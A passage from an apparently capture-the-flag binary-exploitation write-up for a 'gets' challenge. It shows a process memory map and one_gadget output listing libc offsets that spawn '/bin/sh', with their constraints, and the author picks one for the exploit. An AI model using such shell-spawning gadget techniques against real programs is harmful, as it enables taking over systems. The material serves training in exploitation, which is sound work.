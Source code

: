 ```
7f57b74ff000-7f57b7500000 rw-p 00000000 00:00 0

7ffdec460000-7ffdec481000 rw-p 00000000 00:00 0                          [stack]

7ffdec57f000-7ffdec582000 r--p 00000000 00:00 0                          [vvar]

7ffdec582000-7ffdec584000 r-xp 00000000 00:00 0                          [vdso]

ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]

```



After determining the version of libc, we can choose one_gadget, here I choose the first one, the lower address.


```shell

➜  gets one_gadget /lib/x86_64-linux-gnu/libc.so.6

0x45216 execve("/bin/sh", rsp+0x30, environ)

constraints:

  rax == NULL



0x4526a execve("/bin/sh", rsp+0x30, environ)

constraints:

  [rsp+0x30] == NULL



0xf02a4 execve("/bin/sh", rsp+0x50, environ)

constraints:

  [rsp+0x50] == NULL



0xf1147 execve("/bin/sh", rsp+0x70, environ)

constraints:

  [rsp+0x70] == NULL



```

